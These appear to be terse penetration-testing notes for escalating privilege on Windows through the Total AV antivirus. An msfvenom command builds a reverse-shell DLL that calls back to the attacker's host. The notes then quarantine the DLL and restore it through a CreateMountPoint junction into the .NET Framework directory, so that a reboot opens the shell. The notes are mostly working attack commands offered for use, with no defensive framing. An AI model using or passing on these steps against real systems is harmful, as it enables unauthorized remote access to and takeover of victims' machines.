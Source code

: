 
https://github.com/googleprojectzero/symboliclink-testing-tools/releases/tag/v1.0

Download Release.7z

```bash - kali
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=443 -f dll > version.dll
```

Transfer version.dll and CreateMountPoint.exe to victim.

Make a folder in Windows, called mount.  

```command prompt - windows
cd /
```

```command prompt - windows
mkdir mount
```

Copy the version.dll file into it.

In Total AV, go to Antivirus > Quick Scan > Custom Scan > Add Folder > mount > Start Custom Scan.

Once version.dll is found, click "resolve", leave action as "Quarantine".

Click the "Remove Threat" button.

Go to Quarantine and confirm version.dll is there.

In PowerShell, navigate to Downloads folder.

```powershell - windows
.\CreateMountPoint.exe "C:\mount" "C:\Windows\Microsoft.NET\Framework\v4.0.30319\"
```

In Total AV, click the check box for version.dll and hit the Restore button.

![[rlwrap]]

Restart the Windows target to trigger the reverse shell.
